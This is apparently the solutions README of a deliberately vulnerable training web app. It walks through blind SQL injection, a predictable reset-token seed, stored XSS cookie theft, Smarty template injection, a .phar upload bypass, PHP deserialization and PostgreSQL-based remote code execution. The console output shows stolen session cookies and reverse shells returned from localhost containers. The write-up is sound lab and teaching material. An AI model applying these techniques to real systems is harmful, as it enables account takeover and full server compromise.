# Solutions

**Usage:** All proof of concept scripts are written in Python, and require the `requests` package. _They are intended to be run from the `solutions` directory, not from within any of the subdirectories._ If you do not have `requests` installed, you can set up a virtual environment like this:

```console
python3 -m venv venv
source venv/bin/activate
pip3 install requests
```

## Intended

### Authentication Bypass

#### AUTH-1 &mdash; Dumping password reset token via Blind SQLi in forgotusername.php

The `/forgotusername.php` endpoint is vulnerable to blind SQLi in the `username` parameter. We may exploit this to dump password reset tokens, and in turn reset the password of any account we choose.



We can not dump `admin`'s password reset token, because password resets are explicitly disallowed for this user.



```console
$ python3 auth/sqli.py 'http://localhost:8000' 'user1' 'H@ck3d!'      
[*] Requested password reset for user1
[*] Found user1's UID: 2
[*] Dumping password reset token: ddMYPkxHmvFU6mUiHotdxTtXxbAFMqZ5
[+] Set user1's password to H@ck3d!
```

#### AUTH-2 &mdash; Guessing password reset token based on insecure random seed

The function used when creating password reset tokens (`generateToken` in `utils.php`), uses a predictable seed for `rand`. Because of this, we can generate a list of possible tokens and try them all until we get the right one.



```console
$ python3 auth/insecureSeed.py 'http://localhost:8000' 'user1' 'H@ck3d!'
[*] Requested password reset for user1
[*] Generated 12 possible tokens between 1766428540576 and 1766428540588
[*] Trying token: o4NS6TCOfxDv2ScR99TBbXteLR6Wmm2G
[+] Set user1's password to H@ck3d!
```

### Privilege Escalation

#### PRIV-ESC-1 &mdash; Stored XSS in user description

User descriptions are not filtered properly and can execute HTML code when displayed on the admin's home page. We can exploit this to steal the admin's cookie when he logs in (there is a cron job doing this every minute).



For example, we can set the description to `` when logged in as `user1`:



Then, when the `admin` logs in, the XSS payload will be triggered:



This is because all user descriptions are displayed on the admin dashboard:



```console
$ python3 privesc/xss.py 'http://localhost:8000' 'user1' 'H@ck3d!'      
[*] Logged in as user1
[*] Set user1's description to XSS payload
[*] Listening on 172.17.0.1:8001...
[*] Waiting for admin to visit homepage...
[+] Got admin cookie: PHPSESSID=30ad9b381169c6314e97c3bb6fa9ba02
```

### Remote Code Execution

#### RCE-1 &mdash; Server-side template injection in MotD

The admin may set a message of the day which is shown to every user on the home screen. This MotD is rendered as a template using [Smarty](https://www.smarty.net/) v2.6.31, and absolutely no sanitization of the MotD is performed, meaning attackers can inject arbitrary template code.





Versions of [Smarty < 4.0.0-rc.0](https://github.com/smarty-php/smarty/blob/master/CHANGELOG.md#400-rc0---2021-10-13) supported the [{php}](https://www.smarty.net/docsv2/en/language.function.php.tpl) tag, which makes exploitation straightforward.

```console
$ python3 rce/ssti.py 'http://localhost:8000' 'PHPSESSID=fe55ab2087e978b97ab2df462c76fbee'
[*] Set MotD to payload
[*] Starting listener...
listening on [any] 9999 ...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.4] 57098
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@1d7e191504a1:/var/www/html$ 
```

#### RCE-2 &mdash; Image upload bypass (upload .phar)

The admin may upload images to be displayed below the MotD. Although there is an image upload filter in place, it may be bypassed to upload `.phar` files (as long as they pass the other checks - Image size and Mime-Type) which execute server side.



```console
$ python3 rce/imageUpload.py 'http://localhost:8000' 'PHPSESSID=fe55ab2087e978b97ab2df462c76fbee'
[*] Uploaded image/payload (QqtKxxzV.phar)
[*] Starting listener...
listening on [any] 9999 ...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.2] 54298
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@123f7f20cf38:/var/www/html/images$
```

#### RCE-3 &mdash; PHP deserialization in user import feature

The `admin` may import users to the system as serialized PHP objects. During this process, there is no input validation, and so we can pass any serialization object we want.



In `utils.php`, the `Log` class is defined with a `__destruct` function that can be used to write arbitrary data to an arbitrary file. This can be abused to write a PHP reverse shell to the web root.



```console
$ python3 rce/deserialize.py 'http://localhost:8000' 'PHPSESSID=fe55ab2087e978b97ab2df462c76fbee'
[*] Starting listener...
listening on [any] 9999 ...
[*] Imported user/payload
[*] Triggering payload (QyjwlcFK.php)...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.4] 55630
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@1d7e191504a1:/var/www/html$
```

## Unintended

This section contains unintended vulnerabilities that were brought to my attention by fellow students (**thank you!**)

#### Unauthenticated RCE as postgres #1 &mdash; UDF

_Credit to **Ugnius V**_

It is possible to get remote code execution as the `postgres` user by abusing the SQLi in `forgotusername.php` to upload a [User-Defined Function](https://www.postgresql.org/docs/current/xfunc.html) as a [large object](https://www.postgresql.org/docs/current/largeobjects.html) (here's a [blog post](https://knowledge.dhound.io/security-practices/exploitation/rce-with-postgresql-extensions) explaining the attack).

_Note: This attack depends on the UDF matching the exact major version of PostgreSQL the server is running. So the POC in this repository will likely require modification to work in the future_

```console
$ gcc -I/usr/include/postgresql/18/server -shared -fPIC -o unintended/udf.so unintended/udf.c
$ python3 unintended/udf.py 'http://localhost:8000'
[*] Created large object with LOID = 83282
[*] Inserted chunk #0 into large object
[*] Inserted chunk #1 into large object
[*] Inserted chunk #2 into large object
[*] Inserted chunk #3 into large object
[*] Inserted chunk #4 into large object
[*] Inserted chunk #5 into large object
[*] Inserted chunk #6 into large object
[*] Inserted chunk #7 into large object
[*] Wrote UDF to file (/tmp/udf_83282.so)
[*] Created UDF "sys" from file
[*] Starting listener...
listening on [any] 9999 ...
[*] Triggering reverse shell...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.4] 58426
bash: cannot set terminal process group (311): Inappropriate ioctl for device
bash: no job control in this shell
postgres@4f12a5ed5511:~/18/docker$
```

#### Unauthenticated RCE as postgres #2 &mdash; COPY FROM

_Credit to **rizemon**_

It is possible to get remote code execution as the `postgres` user by abusing the SQLi in `forgotusername.php` to run arbitrary commands using [COPY FROM](https://www.postgresql.org/docs/current/sql-copy.html).

```console
$ python3 unintended/copyFrom.py 'http://localhost:8000'
[*] Starting listener...
listening on [any] 9999 ...
[*] Triggering RCE via SQLi...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.2] 37086
bash: cannot set terminal process group (132): Inappropriate ioctl for device
bash: no job control in this shell
postgres@fc7fb3a7332b:~/18/docker$
```